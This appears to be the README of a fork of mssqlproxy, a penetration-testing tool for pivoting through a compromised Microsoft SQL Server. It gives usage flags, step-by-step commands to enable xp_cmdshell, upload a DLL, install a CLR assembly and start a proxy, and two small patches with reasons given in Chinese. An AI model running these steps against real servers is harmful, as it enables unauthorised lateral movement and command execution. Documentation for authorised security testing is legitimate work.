 # mssqlproxy

**mssqlproxy** is a toolkit aimed to perform lateral movement in restricted environments through a compromised Microsoft SQL Server via socket reuse. The client requires [impacket](https://github.com/SecureAuthCorp/impacket) and **sysadmin** privileges on the SQL server.


Please read [this article](https://www.blackarrow.net/mssqlproxy-pivoting-clr/) carefully before continuing.

```
proxy mode:
  -reciclador path      Remote path where DLL is stored in server
  -install              Installs CLR assembly
  -uninstall            Uninstalls CLR assembly
  -check                Checks if CLR is ready
  -start                Starts proxy
  -local-port port      Local port to listen on
  -clr local_path       Local CLR path
  -no-check-src-port    Use this option when connection is not direct (e.g. proxy)
```

We have also implemented two commands (within the SQL shell) for downloading and uploading files. Relating to the proxy stuff, we have four commands:

* **install**: Creates the CLR assembly and links it to a stored procedure. You need to provide the `-clr` param to read the generated CLR from a local DLL file.
* **uninstall**: Removes what **install** created.
* **check**: Checks if everything is ready to start the proxy. Requires to provide the server DLL location (`-reciclador`), which can be uploaded using the **upload** command.
* **start**: Starts the proxy. If `-local-port` is not specified, it will listen on port 1337/tcp.
[![asciicast](https://asciinema.org/a/298949.svg)](https://asciinema.org/a/298949)

**Note #1:** if using a non-direct connection (e.g. proxies in between), the `-no-check-src-port` flag is needed, so the server only checks the source address.

**Note #2:** at the moment, only IPv4 targets are supported (nor DNS neither IPv6 addresses).

**Note #3:** use carefully! by now the MSSQL service will crash if you try to establish multiple concurrent connections

**Important:** It's important to stop the mssqlproxy by pressing Ctrl+C on the client. If not, the server may crash and you will have to restart the MSSQL service manually.

Example
------------

Prepare
```bash
python3 mssqlclient.py $username:$password@$ip_mssql
SQL> enable_xp_cmdshell
SQL> enable_ole
SQL> upload reciclador.dll c:\windows\temp\reciclador.dll
SQL> exit
```

Proxy
```bash
python3 mssqlclient.py $username:$password@$ip_mssql -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql -check -reciclador 'c:\programdata\reciclador.dll'
python3 mssqlclient.py $username:$password@$ip_mssql -start -reciclador 'c:\programdata\reciclador.dll'
```

xp_cmdshell
```bash
SQL> xp_cmdshell whoami /all
```
download file
```
download c:\xx.zip xx.zip
```
Base
------------
https://github.com/iptL-F4ck/mssqlproxy/


Change
------------
217 line of mssqlclient.py
```
SET @ip=TRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address')));
change to
SET @ip=LTRIM(RTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))));
```
103 line of reciclador.cpp
```
return 1;
change to
return -1;
```

Why modify
------------
mssqlclient.py：在mssql2017之后才新增的TRIM函数，绕过mssql小于2017则会报错，仅在mssql2014测试。
![image](https://user-images.githubusercontent.com/102639729/224523965-8e22b17f-00ac-4446-9782-f8042c5453ac.png)

reciclador.cpp：如果python脚本意外退出，该dll会陷入死循环从而导致CPU占用100%。
![image](https://user-images.githubusercontent.com/102639729/224523979-ec109327-d721-415f-9a7c-61e5e62e38d0.png)




License
-------

All the code included in this project is licensed under the terms of the GPL license. The mssqlclient.py is based on [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).
